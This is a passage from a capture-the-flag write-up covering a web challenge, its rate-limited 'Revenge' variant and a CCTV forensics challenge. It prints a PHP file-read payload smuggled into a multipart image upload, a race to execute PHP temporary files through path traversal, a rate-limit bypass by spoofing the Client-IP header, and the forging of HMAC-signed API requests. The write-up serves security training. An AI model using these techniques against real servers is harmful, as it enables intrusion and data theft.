To widen the race window, I created a valid PNG with approximately 1,900 KiB of padding:
1python3 - <<'PY'
2import base64
3from pathlib import Path
4
5png = base64.b64decode(
6 "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mP8/x8AAwMCAO+a6d8AAAAASUVORK5CYII="
7)
8Path("race.png").write_bytes(png + b"A" * (1900 * 1024))
9PY
In Burp Repeater, I kept the legitimate image part and added three extra parts before the closing boundary:
1Content-Disposition: form-data; name="evil1"; filename="a.bin"
2Content-Type: application/octet-stream
3
4<?php echo file_get_contents("/var/www/html/flag.txt"); ?>
The evil2 and evil3 parts contain the same PHP payload. The race procedure is:
- Send the upload request without waiting for its response.
- Immediately poll
GET /vault.phpin another Repeater tab. - Find a newly listed name matching
phpXXXXXX. - Immediately request
GET /images/../tmp/phpXXXXXX/.php.
The request must execute before PHP cleans up the temporary file. A successful race returns:
1KMACTF{sk-7fK9mQ2xL8vN4pR6tY1aB3cD5eF7gH9jK2mP4qS6uV8wX0z}
DeepSeek Made Me Do It Revenge
The revenge version preserves the entire original exploit chain. It only adds a one-request-per-second rate limit and shorter input windows:
1$ip = $_SERVER['REMOTE_ADDR'];
2$rate_file = $rate_dir . '/rate_' . md5($ip);
3if (file_exists($rate_file) && (time() - filemtime($rate_file)) < 1) {
4 header($_SERVER['SERVER_PROTOCOL'] . ' 429 Too Many Requests');
5 exit;
6}
7@touch($rate_file);
1RequestReadTimeout body=1
2max_input_time = 1
On the challenge instance, the server trusted the attacker-controlled Client-IP header as the remote address. Changing that header for each request bypassed the rate limit.
I prepared multiple Repeater tabs with different values:
1Upload: Client-IP: 10.0.0.1
2Poll 1: Client-IP: 10.0.0.2
3Poll 2: Client-IP: 10.0.0.3
4Poll 3: Client-IP: 10.0.0.4
5Execute: Client-IP: 10.0.0.5
6Retry: Client-IP: 10.0.0.6
The upload still carries the valid PNG and extra PHP parts. After sending it, I cycled through the poll tabs until /vault.php disclosed a temporary filename, inserted that name into the execute request, and sent it with a fresh Client-IP. If a request returned 429, the next tab used another address.
The result was:
1KMACTF{sk-9f8a7b6c5d4e3f2a1b0c9d8e7f6a5b4c3d2e1f0a9b8c7d6e5f4a3b2c1d0e9f}
Forensics
CCTV
Identifying the target frame
The supplied screenshots were black, so the useful evidence came from evidence_manifest.json, camera_map.json, the operator console, and the frame database. These artifacts identify the valid Lab B record as CAM07, frame 184273.

The exact values are:
1camera_id = CAM07
2frame_id = 184273
3channel = 7
4local_ts = 2026-05-19T22:41:06.742+07:00
5utc_ts = 2026-05-19T15:41:06.742Z
6sha256 = e5519185b09d389b713bece711673016abf354fac41e5fa841b4b71bc3048322
7chain_prev_hash = 99ec4886b095d35a0922e9d43bb71ba65535516c7db5c9b29ed8bde0fcd192c4
The v4 evidence request requires:
1Authorization
2X-KMA-Access-Key
3X-KMA-Date
4X-KMA-Nonce
5X-KMA-Frame-SHA256
6X-KMA-Scope
7X-KMA-Proof
The artifacts provide the credential and access key:
1credential = kma@cam07-184273
2access_key = KMAOP-CAM07
The Authorization header is Basic authentication over operator:kma@cam07-184273.
Nonce, scope, and signing key
Packet 37 requests:
1http://nvr-x7.local/api/v4/challenge
Packet 38 returns a fresh nonce. A new nonce must be requested for every signed evidence request.
The scope is:
120260519/CAM07/kma4_evidence/kma4_request
An invalid proof produces E_SIG. The correct proof is:
1proof = hmac.new(
2 signing_key,
3 string_to_sign.encode(),
4 hashlib.sha256,
5).hexdigest()
The signing key is the fourth value in this HMAC chain:
1k0 = HMAC(key=b"KMA4" + secret, msg=b"20260519")
2k1 = HMAC(key=k0, msg=b"CAM07")
3k2 = HMAC(key=k1, msg=b"kma4_evidence")
4k3 = HMAC(key=k2, msg=b"kma4_request")
config_2026_05_19.bak specifies the v4-sigchain gateway and states that the static API secret is stored in nvr_backup/key_escrow.bin. The escrow format is AES-256-CBC, with the first 16 ciphertext bytes used as the IV.
The AES key is derived with PBKDF2-HMAC-SHA256. Its passphrase follows:
1camera|frame|local_ts|chain-of-custody
For this frame, the passphrase components are CAM07, 184273, and 2026-05-19T22:41:06.742+07:00. The salt is the least-significant 128 bits extracted from the target file as documented by the backup configuration.
Recovery produced:
1salt = a3f7c1d9e2b04856910fad3c7e6b82f5
2secret = kma-nvr-v4::evidence::chain::4187::wal
Applying the four HMAC rounds yielded:
1signing_key = 4bd4a3a150ea46a8ff86f016f10a06903444712b1a15acb9384785e3e61f8bb4

Canonical request and final evidence request
The canonical request recovered from packet 21 is the direct concatenation below:
1GET/api/v4/evidence/snapshotcamera=CAM07&frame=184273&ts=2026-05-19T22%3A41%3A06.742%2B07%3A00e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b85520260519T154106Z
Its SHA-256 digest is:
1d713830e9a548729e1f8746b5644c74f83f44b917c030f28038eaf795ee95b08
The final request uses:
1Authorization: Basic <base64(operator:kma@cam07-184273)>
2X-KMA-Access-Key: KMAOP-CAM07
3X-KMA-Date: 20260519T154106Z
4X-KMA-Nonce: <fresh nonce>
5X-KMA-Frame-SHA256: e5519185b09d389b713bece711673016abf354fac41e5fa841b4b71bc3048322
6X-KMA-Scope: 20260519/CAM07/kma4_evidence/kma4_request
7X-KMA-Proof: <HMAC-SHA256 proof>
The successful run returned:
1nonce=9da6ec382653640db48d923481e811ea
2proof=8f72eb47ac2e46995b7e74d5d7c8a20218ecc8fef6d134211f55cacc01c2f63ec
3snapshot=/root/Forensics/CCTV/artifacts/verified_snapshot.bin
4sha256=d1c48740adaf3de398501c6ef1c948dcdb2b78376f4399b58d0c56b81b00a8b
5KMACTF{c4m0n1c4l_pr00f_0f_3v1d3nc3}
